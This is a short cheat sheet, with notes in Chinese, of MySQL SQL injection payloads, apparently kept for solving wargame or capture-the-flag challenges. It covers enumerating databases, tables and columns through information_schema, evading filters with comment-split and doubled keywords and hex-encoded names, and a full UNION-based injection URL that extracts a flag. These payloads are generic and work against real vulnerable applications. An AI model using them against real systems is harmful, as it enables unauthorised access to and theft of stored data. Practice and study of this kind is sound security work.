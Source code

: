## SQL injection

select database()

group_concat(table_name) from information_schema.tables where table_schema=‘database()’
再看某個資料庫的table (單引號要提換成實際database name)

group_concat(column_name) from information_schema.columns where table_name='wargame2key'-- -

or (尾端單引號內容可換成hex 然後不需要單引號 , 不行的話試試看單引號不要拿掉)

group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#

---

已知欄位數量 database()名稱

(`limit`參數為開始欄位id,顯示數量)

查看表個名:
(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='置換成db名稱' limit 0,1)-- -

查看欄位名:
(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='置換成表格名稱' limit 1,1),4 -- 1

取得欄位內容:
https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select flag from flag limit 1,1),4 -- 1
